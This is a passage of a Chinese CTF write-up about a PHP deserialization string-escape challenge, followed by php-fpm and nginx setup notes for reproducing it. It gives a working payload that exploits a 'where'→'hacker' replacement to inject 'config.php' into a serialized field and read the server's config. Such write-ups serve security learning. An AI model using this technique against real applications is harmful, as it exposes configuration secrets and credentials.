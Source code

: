 ```
```

这就是这题的重点了，但是怎么控制长度呢？就是通过 `where -> hacker`  然后字符串逃逸。
所以得出payload:
```
payload = '";}s:5:"photo";s:10:"config.php";};'
payload = "where" * len(payload) + payload
```

然后是复现这题，在复现的过程中随便学习了下运维。。

```
# 新建组
$ groupadd ctf5
# 新建一个专门用于php-fpm的用户
$ useradd ctf5 -M -s /sbin/nologin -g ctf5
# 创建pid, sock文件
$ touch /usr/local/php/var/run/php-fpm-ctf5.pid
$ touch /tmp/php-cgi-ctf5.sock
# sock是被nginx使用所以需要把所属用户和用户组改成和nginx一样
$ chown www:www /tmp/php-cgi-ctf5.sock
# 修改nginx虚拟主机文件
$ vim /usr/local/nginx/conf/vhost/ctf5.conf
    fastcgi_pass  unix:/tmp/php-cgi-ctf5.sock;    #修改成这样
# 创建php-fpm配置文件
$ cp /usr/local/php/etc/php-fpm.conf /usr/local/php/etc/php-fpm-ctf5.conf
$ vim /usr/local/php/etc/php-fpm-ctf5.conf
[global]
pid = /usr/local/php/var/run/php-fpm-ctf5.pid
error_log = /usr/local/php/var/log/php-fpm-ctf5.log
log_level = notice

[ctf5]
listen = /tmp/php-cgi-ctf5.sock
listen.backlog = -1
listen.allowed_clients = 127.0.0.1
listen.owner = ctf5
listen.group = ctf5
listen.mode = 0666
user = ctf5
group = ctf5
pm = dynamic
pm.max_children = 10
pm.start_servers = 1
pm.min_spare_servers = 1
pm.max_spare_servers = 6
request_terminate_timeout = 100
request_slowlog_timeout = 0
slowlog = var/log/slow-ctf5.log

# 修改/etc/init.d/php-fpm
vhost=$2
if [ -n "$vhost" ];then
        vhost=-$vhost
fi
php_fpm_CONF=${prefix}/etc/php-fpm$vhost.conf
php_fpm_PID=${prefix}/var/run/php-fpm$vhost.pid

restart)
                $0 stop $2
                $0 start $2

# 修改文件夹权限
$ chown ctf5:www -R /home/wwwroot/ctf5
# 最后记得重启
```